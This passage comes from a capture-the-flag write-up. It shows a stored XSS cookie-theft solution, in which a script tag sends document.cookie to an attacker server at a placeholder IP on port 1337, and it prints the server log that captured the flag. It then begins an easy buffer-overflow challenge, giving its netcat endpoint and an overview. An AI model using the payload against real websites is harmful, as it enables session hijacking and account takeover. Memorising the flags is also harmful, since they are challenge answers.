 4. I create a simple cookie hijacking XSS script which takes the `document.cookie` and submits it as a get request parameter to my server

```html
<script>document.write('<img src="http://XX.XX.XX.XX:1337/?cookie=' + document.cookie + '" />')</script>
```

This XSS script will try to add a image to the DOM. The source of the image is a link to our attacker server where the `document.cookie` is sent along with a GET parameter in the URL. So when the browser (in this case the admin bot) tries to load in the image, it sends a GET request to the image source along with the cookie.

5. We create the paste and pass the link to the admin bot. The admin bot visits the link and we get the following http request at our server

```http
Connection from [REDACTED]:36854
GET /?cookie=flag=flag{d1dn7_n33d_70_b3_1n_ru57} HTTP/1.1
Host: [REDACTED]:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/91.0.4472.148 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br

```

6. The cookie is the flag itself, no need to authenticate as admin.

##### Flag: flag{d1dn7_n33d_70_b3_1n_ru57}

### pwn/beginner-generic-pwn-number-0

---

#### Categeory: Binary Exploitation

#### Difficulty: Easy

#### Keywords: Buffer Overflow, Binary Exploitation

#### Author: TheRealDarkCoder

#### Prompt:> 

```
rob keeps making me write beginner pwn! i'll show him...

nc mc.ax 31199

```

#### Overview:>

1. We have a running service which we can connect to via netcat which is running a ELF binary. The compiled binary (`pwn/beginner-generic-pwn-number-0`) and the C source code (`beginner-generic-pwn-number-0.c`) is provided to us. Upon running the binary the file outputs 3 lines, the first being a random line each time (Taken from an array after an index is randomly generated) and then 2 hardcoded lines. Then the program asks for user input and exits after user input.
